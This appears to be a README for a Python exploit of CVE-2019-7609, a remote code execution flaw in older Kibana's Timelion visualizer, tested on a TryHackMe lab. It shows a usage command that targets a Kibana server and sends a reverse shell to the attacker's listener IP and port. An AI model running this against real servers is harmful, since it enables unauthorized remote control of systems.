

# CVE-2019-7609

Exploit for CVE-2019-7609 written in `python3.6+` based on the [code by LandGrey](https://github.com/LandGrey/CVE-2019-7609).

> **CVE-2019-7609**: RCE on Kibana versions before 5.6.15 and 6.6.0 in the Timelion visualizer.

## Usage

1. Start a listener
2. Run the exploit with the target url (base url of the kiba server), the listener host address and listener port as arguments

```bash
./cve-2019-7609.py http://<target>:5601 <listener-ip> <listener-port>
```
3. Enjoy RCE

## Example

> Tested on the [Kiba room on TryHackme](https://tryhackme.com/room/kiba)


